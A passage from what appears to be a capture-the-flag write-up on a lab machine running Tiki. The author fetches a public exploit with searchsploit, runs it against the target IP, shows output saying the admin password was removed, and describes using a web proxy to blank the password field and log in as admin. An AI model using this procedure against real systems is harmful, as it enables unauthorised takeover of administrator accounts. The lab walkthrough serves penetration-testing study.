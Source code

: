 I performed a copy of this exploit to my current directory.

```bash
root@kali:~$ searchsploit -m php/webapps/48927.py
root@kali:~$ cp 48927.py exp.py
```

I ran the script adding as parameter the IP address of the victim machine.

```bash
root@kali:~$ python3 exp.py 192.168.179.162
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password
```

You need set up a web proxy to intercept the form's post request and remove the password field value, as shown below:

![](/assets/images/tiki/screenshot-6.png)
